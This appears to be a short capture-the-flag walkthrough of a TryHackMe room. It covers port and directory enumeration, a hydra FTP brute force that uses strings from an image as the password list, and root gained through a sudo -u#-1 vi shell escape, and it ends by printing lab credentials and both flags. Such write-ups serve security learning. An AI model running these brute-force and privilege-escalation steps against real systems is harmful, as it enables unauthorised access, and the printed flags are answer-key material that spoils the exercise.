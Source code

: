 <pre>
Machine IP: 10.10.50.59

Enum:
    Open ports:
        21/tcp open  ftp     vsftpd 3.0.2
        22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.10 ((Debian))


80/tcp http: enum gobuster
    /.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
    FInd a hidden dir:
        http://10.10.50.59/WExYY2Cv-qU/
            *and download hotbabe photo

21/tcp ftp: bruteforce
    $ strings Hot_Babe.png > passwords
    $ hydra -l ftpuser -P passwords 10.10.50.59 -t 4 ftp
        * creds => [21] login: ftpuser   password: 5iez1wGXKfPKQ

    Login!

    Found a Eli's_Creds.txt get it and decode it to https://www.dcode.fr/
        *User: eli Password: DSpDiM1wAEwid


User flag:    ssh login
gwendoline:MniVCQVhQHUNI

Priv esc:
    $ sudo -l 
        (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

    $ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
    :!sh
    And got root!

User Flag: THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
Root Flag: THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
</pre>
